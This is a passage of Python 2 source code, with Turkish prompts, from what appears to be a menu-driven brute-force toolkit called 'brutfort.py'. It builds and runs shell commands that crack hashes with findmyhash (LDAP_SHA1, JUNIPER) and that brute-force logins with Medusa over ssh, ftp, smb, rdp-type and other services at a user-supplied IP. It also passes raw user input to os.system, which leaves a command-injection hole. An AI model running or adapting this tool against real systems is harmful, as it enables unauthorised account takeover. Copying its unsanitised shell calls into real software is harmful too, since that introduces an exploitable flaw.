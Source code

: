 	elif findmyhash_process ==16 :
		hash = raw_input(color.BLUE + "Hash giriniz  :  " + color.END)
		print color.YELLOW + "\n\tBrute Force, findmyhash ile %s'ne karşı başlatıldı.\n" %(hash) + color.END
		findmyhash = "python /usr/bin/findmyhash LDAP_SHA1 -h %s"%hash
		print color.RED + """	******************************************************************
	*  python /usr/bin/findmyhash LDAP_SHA1 -h %s
	******************************************************************
	"""%(hash) + color.END
		os.system(findmyhash)

	elif findmyhash_process ==17 :
		hash = raw_input(color.BLUE + "Hash giriniz  :  " + color.END)
		print color.YELLOW + "\n\tBrute Force, findmyhash ile %s'ne karşı başlatıldı.\n" %(hash) + color.END
		findmyhash = "python /usr/bin/findmyhash JUNIPER -h %s"%hash
		print color.RED + """	******************************************************************
	*  python /usr/bin/findmyhash JUNIPER -h %s
	******************************************************************
	"""%(hash) + color.END
		os.system(findmyhash)

	elif findmyhash_process == 99 :
		os.system("python brutfort.py")
	else : 
		print color.RED + "\nYanlış seçim yaptınız. Lütfen kontrol edip tekrar deneyiniz." + color.END
		time.sleep(3)
		os.system("python brutfort.py")
####################### Findmyhash ############################



####################### Medusa ############################
def medusa():
	mods_title = """	** Mods  **"""
	medusa_processes = """
		%s  Kullanıcı adı ve parola
		%s  Kullanıcı adı ve parola dosyası
		%s  Kullanıcı adı dosyası ve parola
		%s  Kullanıcı adı dosyası ve parola dosyası
		%s  Combo dosyası
		%s Ana Menüye Dön
	"""%(one,two,three,four,five,ninety)
	print medusa_processes
	medusa_process = input(color.YELLOW + "Yukarıdaki medusa yöntemlerinden birisini seçiniz : " + color.END)
	if medusa_process ==1 :
		user_name = raw_input(color.BLUE + "Kullanıcı adını giriniz : " + color.END)
		password  = raw_input(color.BLUE + "Parolayı giriniz        : " + color.END)
		ip_address= raw_input(color.BLUE + "IP adresini giriniz     : " + color.END)
		print ""		
		print color.RED + mods_title + color.END
		mods      ="""	cvs, ftp, http, imap, mssql, mysql, ncp, nntp, pcanywhere, pop3, postgres, rexec, rlogin, 
	rsh, smbnt, smtp, smtp-vrfy, snmp, ssh, svn, telnet, vmauthd, vnc, web-form, wrapper       
		"""
		print mods
		mod	  = raw_input(color.BLUE + "Mod giriniz             : " + color.END)
		print ""
		print color.YELLOW + "\tBrute Force, Medusa ile %s IP adresine %s modunda başlatıldı.\n" %(ip_address,mod) + color.END
		medusa= "medusa -u %s -p %s -h %s -M %s" %(user_name,password,ip_address,mod)
		print color.RED + """	******************************************************************
	*  medusa -u %s -p %s -h %s -M %s
	******************************************************************